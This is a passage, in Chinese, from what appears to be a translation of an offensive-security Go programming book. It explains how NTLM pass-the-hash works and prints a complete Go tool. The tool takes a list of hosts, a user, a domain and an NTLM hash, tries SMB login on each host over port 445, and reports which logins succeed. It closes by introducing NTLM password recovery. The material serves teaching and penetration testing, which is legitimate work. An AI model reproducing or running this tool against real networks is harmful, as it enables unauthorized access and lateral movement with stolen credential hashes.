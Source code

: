 NTLM 哈希作为输入传递给 `ComputeResponseNTLMv2` 函数 ❶，这意味着哈希是在与安全令牌创建逻辑无关的情况下独立生成的。这意味着无论哈希存储在哪里——即使是在 LSASS 中——都被视为预计算的，因为你不需要提供域、用户名或密码作为输入。认证过程如下：

1.  使用域、用户名和密码值来计算用户的哈希值。

1.  使用哈希作为输入来计算用于 NTLMSSP 认证的 SMB 认证令牌。

由于你已经有了哈希值，你已经完成了步骤 1。为了传递哈希，你启动了 SMB 认证序列，就像你在本章开头部分定义的那样。然而，你并没有计算哈希。相反，你直接使用提供的值作为哈希值。

Listing 6-14 展示了一个使用密码哈希来尝试作为特定用户认证到一组机器的 pass-the-hash 工具。

```
func main() {
    if len(os.Args) != 5 {
        log.Fatalln("Usage: main <target/hosts> <user> <domain> <hash>")
    }

    buf, err := ioutil.ReadFile(os.Args[1])
    if err != nil {
        log.Fatalln(err)
    }

    options := smb.Options{
        User:   os.Args[2],
        Domain: os.Args[3],
        Hash❶: os.Args[4],
        Port:   445,
    }

    targets := bytes.Split(buf, []byte{'\n'})
    for _, target := range targets❷ {
        options.Host = string(target)

        session, err := smb.NewSession(options, false)
        if err != nil {
            fmt.Printf("[-] Login failed [%s]: %s\n", options.Host, err)
            continue
        }
        defer session.Close()
        if session.IsAuthenticated {
            fmt.Printf("[+] Login successful [%s]\n", options.Host)
        }
    }
}
```

*Listing 6-14: 使用哈希进行认证测试 (*[/ch-6/password-reuse/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-6/password-reuse/main.go)*)*

这段代码应该与密码猜测的例子相似。唯一显著的区别是，你设置了 `smb.Options` 的 `Hash` 字段（而不是 `Password` 字段） ❶，并且你遍历的是一组目标主机（而不是目标用户） ❷。`smb.NewSession()` 函数内的逻辑会使用填充在 `options` 结构体中的哈希值。

### 恢复 NTLM 密码

在某些情况下，仅拥有密码哈希不足以支持你的整体攻击链。例如，许多服务（如远程桌面、Outlook Web Access 等）不允许基于哈希的认证，因为要么不支持，要么不是默认配置。如果你的攻击链需要访问这些服务，你将需要明文密码。在接下来的部分中，你将了解哈希是如何计算的，以及如何创建一个基础的密码破解工具。
